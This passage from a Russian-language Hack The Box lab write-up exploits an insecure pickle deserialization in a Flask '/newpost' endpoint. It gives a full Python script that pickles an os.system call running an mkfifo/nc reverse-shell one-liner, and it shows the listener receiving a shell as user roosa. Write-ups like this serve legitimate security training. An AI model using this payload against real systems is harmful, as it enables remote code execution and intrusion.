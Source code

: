 Остановимся на устройстве ресурса `/newpost`, который не обнаружил gobuster:
```python
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

Невооруженным взглядом видна *pickle-deserialization*-уязвимость, о которой мы уже говорили, когда разбирали машину [Canape]({{ "/2018/09/28/htb-canape-write-up.html#анализ-кода" | relative_url }} "HTB: Canape Write-Up / snovvcrash’s Security Blog").

Поэтому, не вдаваясь в долгие рассуждения (и пропустив Proof-of-Concept, ибо лень), соберем скрипт, который подарит нам реверс-шелл:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Usage: python devoops_shell.py

import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```

И мы снова внутри:
```text
root@kali:~# python devoops_shell.py

```

```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.91.
Ncat: Connection from 10.10.10.91:55294.

/bin/sh: 0: can't access tty; job control turned off
$ whoami
roosa

$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```